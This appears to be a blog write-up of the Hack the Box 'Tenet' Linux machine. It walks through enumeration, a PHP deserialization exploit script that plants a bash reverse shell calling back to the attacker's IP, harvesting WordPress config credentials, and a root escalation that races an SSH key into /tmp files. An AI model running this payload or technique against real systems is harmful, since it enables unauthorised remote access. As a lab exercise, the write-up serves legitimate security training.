 +++
author = "Nick"
categories = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
date = 2021-06-12T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/06/tenet.png"
slug = "hack-the-box-tenet"
summary = "Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!"
tags = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
title = "Hack the Box - Tenet"

+++


Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!

As usual, start the recon with `nmap`.

```
Nmap scan report for 10.10.10.223
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not much of a path forward, let's see what we can find on port 80. When we browse over to port 80, we see a standard `Apache` install page. We'll start sniffing around with `gobuster` to see what we can find.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

Nothing out of the ordinary was found, damn. A quick vhost enumeration with `nmap` didn't reveal anything either. In this case we're just going to add tenet.htb to our host lists to see if anything resolves.

Sure enough we get a blog site. We'll repeat the same `gobuster` command from about but using our vhost.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

The enumeration shows us that we've working with a Wordpress site. Digging around gives us two users, `protagonist` and `neil`. Neil gives us one comment in particular that is interesting:

![](/images/2021/06/image.png)

So, we should start looking for `.php` and `.bak` / `.back` files. As well as any items named `sator`. Since this list is small, we can check these by hand by checking our vhost and IP for these file names. The reason we do both IP and Vhost is because there are possibly more Vhosts than we know that could resolve to the IP.

Sure enough, the `10.10.10.223/sator.php` finds a hit:

![](/images/2021/06/image-1.png)

Along side that, so does the `.bak`:

![](/images/2021/06/image-2.png)

Now that we've downloaded the file, we can take a look at it.

![](/images/2021/06/image-3.png)

Looks like we're taking a repo, `arepo`, which is serialized and unserializing it. Looks like we're using a magic method here, `__destruct()`. `PHP Deserialization` is a common thing to see in HTB as well as other CTF's. It's also still realivant to real life applications (unfortunately). Here's some more info on the topic:

* https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
* https://kishanchoudhary.com/OSWE/php_obj.html
* https://notsosecure.com/remote-code-execution-via-php-unserialize/

We have a few ways to leverage this. We can create a script to call to the `sator.php` URL and run it with PHP locally to gain an RCE that way, or we can can create a serialized value and feed it to `sator.php` URL, let it create the RCE file and then browse to it.

First, let's create the script, which we just copy the first part of the above script:

```php
<?php
class DatabaseExport
{
    public $user_file = 'tenet_5.php';
    public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.89/7070 0>&1\'"); ?>';

        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated';
        }
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$r = file_get_contents("$url");
$r = file_get_contents("http://10.10.10.223/tenet_5.php");

?>
```
I really dislike `PHP`, just saying. What we did here is simply added a `URL` variable and a `response` variable to take our serialized data and feed it to the endpoint. You could just get the output of the function and `curl` to the endpoint to trigger it as well.

Command:
`nc -lvnp 7070`
`php tenet.php`

![](/images/2021/06/tenetshell.gif)

We get a shell back! Now we can start to look around and enumerate internally. Right where we land when we get a shell, we see a directory called `Wordpress`. Inside there's the `wp-config.php` file, with credentials for `neil`.

![](/images/2021/06/image-4.png)

Now we can try to login via `ssh` as `neil`. It works, we're in as `neil` and grab the `users.txt` flag! The first thing we always do once we get a user foothold on a box is `sudo -l`. This gives us an idea:

![](/images/2021/06/image-5.png)

We check the script, the `addKey()` function is our target in this case.

![](/images/2021/06/image-6.png)

We can write a `while` loop to keep adding our `ssh` key to any ssh files in tmp. First generate a new ssh key:

Command:
`ssh-keygen`

Now we can write our script:

```bash
while true; do echo "SSH-KEY-HERE" | tee /tmp/ssh* > /dev/null; done
```

Once we run the command, we open a new terminal and try to connect with our new key.

Command:
`ssh -i id_rsa root@tenet.htb`

Boom, we get in!

![](/images/2021/06/image-7.png)

Another fun box down! If you found this write-up useful, send some respect my way:[https://app.hackthebox.eu/profile/95635](https://app.hackthebox.eu/profile/95635)

